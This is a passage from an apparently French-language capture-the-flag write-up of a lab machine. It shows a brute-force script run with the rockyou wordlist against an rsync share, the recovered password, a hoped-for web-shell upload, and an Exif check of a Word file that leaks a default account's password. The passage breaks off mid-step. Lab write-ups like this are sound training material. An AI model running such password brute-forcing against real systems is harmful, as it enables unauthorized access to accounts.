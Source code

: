 Au boût d'un temps non négligeable, j'avais un mot de passe :

```bash
$ ./brute.sh sabulaji 192.168.56.107 873 wordlists/rockyou.txt epages
[*] 5000 passwords tried...
[*] 10000 passwords tried...
[*] 15000 passwords tried...
[*] 20000 passwords tried...
[*] 25000 passwords tried...
[*] 30000 passwords tried...
[*] 35000 passwords tried...
[*] 40000 passwords tried...
[*] 45000 passwords tried...
[*] 50000 passwords tried...
[*] 55000 passwords tried...
[*] 60000 passwords tried...
[*] 65000 passwords tried...
[*] 70000 passwords tried...
[*] 75000 passwords tried...
[*] 80000 passwords tried...
[*] 85000 passwords tried...
[*] 90000 passwords tried...

[+] Password found: admin123
```

C'était tout de même la grosse déception, car le partage `epages` étant en lecture seule et d'après la page d'index servit sur le port 80 on pouvait espérer que les deux étaient liées (et uploader un shell web).

### You suck at keeping secrets

On lieu de ça, on a un fichier Word :

```
secrets.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1200, Locale ID: 2052, Author: vort, Template: Normal, Last Saved By: wp, Create Time/Date: Thu May 15 17:15:28 2025, Last Saved Time/Date: Thu May 15 17:15:34 2025, Number of Pages: 1, Number of Words: 0, Number of Characters: 0, Name of Creating Application: WPS Office H_0.0.0.0_{F1E327B, Security: 0
```

Il y a beau avoir du texte dans le document, j'ai quand même regardé les tags Exif au cas où :

```
exiftool secrets.doc | grep Author
Author                          : vortex
```

Le texte quant à lui parle d'un compte `welcome` :

> The admin, in a moment of questionable judgment, named the default account "welcome." I overheard a colleague chuckle about it, saying the password was something absurdly simple, like "P@ssw0rd123!"—hardly a secret worth keeping, but it’s been untouched for years.

Effectivement ça fonctionne :

